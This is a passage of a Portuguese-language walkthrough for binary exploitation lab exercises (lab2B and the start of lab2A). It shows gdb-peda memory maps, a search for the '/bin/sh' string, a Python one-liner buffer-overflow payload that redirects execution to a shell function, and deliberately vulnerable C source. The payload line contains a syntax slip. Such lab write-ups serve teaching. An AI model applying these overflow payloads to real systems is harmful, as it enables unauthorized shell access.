 ### String

Para inserirmos a string como parâmetro, primeiro, precisamos encontrar o seu endereço dentro do processo. Para entendermos o mapeamento da memória virtual do processo, fazemos:

```
gdb-peda$ info proc map
process 1186
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /levels/lab02/lab2B
         0x8049000  0x804a000     0x1000        0x0 /levels/lab02/lab2B
         0x804a000  0x804b000     0x1000     0x1000 /levels/lab02/lab2B
        0xb7e22000 0xb7e23000     0x1000        0x0
        0xb7e23000 0xb7fcb000   0x1a8000        0x0 /lib/i386-linux-gnu/libc-2.19.so
        0xb7fcb000 0xb7fcd000     0x2000   0x1a8000 /lib/i386-linux-gnu/libc-2.19.so
        0xb7fcd000 0xb7fce000     0x1000   0x1aa000 /lib/i386-linux-gnu/libc-2.19.so
        0xb7fce000 0xb7fd1000     0x3000        0x0
        0xb7fd9000 0xb7fdb000     0x2000        0x0
        0xb7fdb000 0xb7fdc000     0x1000        0x0 [vdso]
        0xb7fdc000 0xb7fde000     0x2000        0x0 [vvar]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.19.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.19.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.19.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]

```

Então, podemos procurar a string:

```
gdb-peda$ searchmem "/bin/sh" 0x8048000 0x804b000
Searching for '/bin/sh' in range: 0x8048000 - 0x804b000
Found 2 results, display max 2 items:
lab2B : 0x80487d0 ("/bin/sh")
lab2B : 0x80497d0 ("/bin/sh")
```

Temos nosso endereço! Agora, podemos criar o payload usando o padding descoberto:


`python -c 'print "A" * 0x1b + "\xbd\x86\x04\x08" + "A" 0x04 + "\xd0\x97\x04\x08"'`


## Lab2A

Para o último, vamos conferir o código disponibilizado:

```C
  1 #include <stdio.h>
  2 #include <stdlib.h>
  3 #include <string.h>
  4
  5 /*
  6  * compiled with:
  7  * gcc -O0 -fno-stack-protector lab2A.c -o lab2A
  8  */
  9
 10 void shell()
 11 {
 12     printf("You got it\n");
 13     system("/bin/sh");
 14 }
 15
 16 void concatenate_first_chars()
 17 {
 18     struct {
```